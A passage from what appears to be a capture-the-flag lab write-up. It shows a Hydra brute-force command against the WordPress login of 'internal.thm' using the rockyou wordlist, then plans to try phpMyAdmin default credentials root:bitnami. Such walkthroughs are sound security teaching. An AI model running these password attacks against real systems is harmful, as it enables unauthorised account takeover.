 we can see it is a POST request and the last line are the parameters sent in that request. Now let’s build the Hydra command:

```jsx
hydra -l admin -P /usr/share/wordlists/rockyou.txt http://internal.thm http-post-form "/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:F=Error" -V
```

![Untitled](images/Untitled%2013.png)

While it completes, let’s look at the other directory we found earlier:

### /phpmyadmin

![Untitled](images/Untitled%2014.png)

Here we can see a login page of phpMyAdmin. Nothing indicates the version, so let’s see if we can log in using default credentials root:bitnami

